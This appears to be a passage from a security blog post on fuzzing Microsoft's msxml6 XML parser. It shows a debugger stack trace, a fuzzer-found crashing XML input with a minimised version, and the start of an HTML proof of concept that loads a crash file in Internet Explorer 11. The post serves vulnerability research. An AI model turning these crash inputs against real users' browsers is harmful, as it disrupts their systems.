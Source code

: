 ```
0012fc10 6f90508f 030f4f18 0012fc3c 00000000 msxml6!GetAttributeValueCollapsing+0x43 (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\parse\nodefactory.cxx @ 771]
0012fc28 6f902d87 00000003 030f4f14 6f9051f4 msxml6!NodeFactory::FindAttributeValue+0x3c (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\parse\nodefactory.cxx @ 743]
0012fc8c 6f8f7f0d 030c5fb0 030c3f20 01570040 msxml6!NodeFactory::CreateNode+0x124 (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\parse\nodefactory.cxx @ 444]
0012fd1c 6f8f5042 010c3f20 ffffffff c4fd70d3 msxml6!XMLParser::Run+0x740 (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\tokenizer\parser\xmlparser.cxx @ 1165]
0012fd58 6f8f4f93 030c3f20 c4fd7017 00000000 msxml6!Document::run+0x89 (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\om\document.cxx @ 1494]
0012fd9c 6f90a95b 030ddf58 00000000 00000000 msxml6!Document::_load+0x1f1 (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\om\document.cxx @ 1012]
0012fdc8 6f8f6c75 037278f0 00000000 c4fd73b3 msxml6!Document::load+0xa5 (FPO: [Non-Fpo]) (CONV: thiscall) [d:\w7rtm\sql\xml\msxml6\xml\om\document.cxx @ 754]
0012fe38 00401d36 00000000 00000008 00000000 msxml6!DOMDocumentWrapper::load+0x1ff (FPO: [Non-Fpo]) (CONV: stdcall) [d:\w7rtm\sql\xml\msxml6\xml\om\xmldom.cxx @ 1111]
-- cut --
```

![Running cBugId to triage the crashes..]({{ site.url }}/assets/images/windbg.png)

Let's take a look at one of the crasher:
```
C:\Users\IEUser\Desktop\xml_validate_results\fuzzer01\crashes>type id_000000_00
<?xml version="&a;1.0"?>
<book xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      xsi:noNamespaceSchemaLocation="nn.xsd"
      id="bk101">
   <author>Gambardella, Matthew</author>
   <title>XML Developer's Guide</title>
   <genre>Computer</genre>
   <price>44.95</price>
   <publish_date>2000-10-01</publish_date>
   <description>An in-depth look at creating applications with
   XML.</description>
```
As you can see, if we provide some garbage on the either the xml version or the encoding, we will get the above crash.
Mitja also minimised the case as seen below:

```
<?xml version='1.0' encoding='&aaa;'?>
```

The whole idea of fuzzing this library was based on finding a vulnerability within Internet Explorer's context and somehow trigger it. After a bit of googling, let's use the following PoC (<b>crashme.html</b>) and see if it will crash IE11:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<script>

var xmlDoc = new ActiveXObject("Msxml2.DOMDocument.6.0");
xmlDoc.async = false;
xmlDoc.load("crashme.xml");
if (xmlDoc.parseError.errorCode != 0) {
   var myErr = xmlDoc.parseError;
   console.log("You have error " + myErr.reason);
} else {
   console.log(xmlDoc.xml);
}

```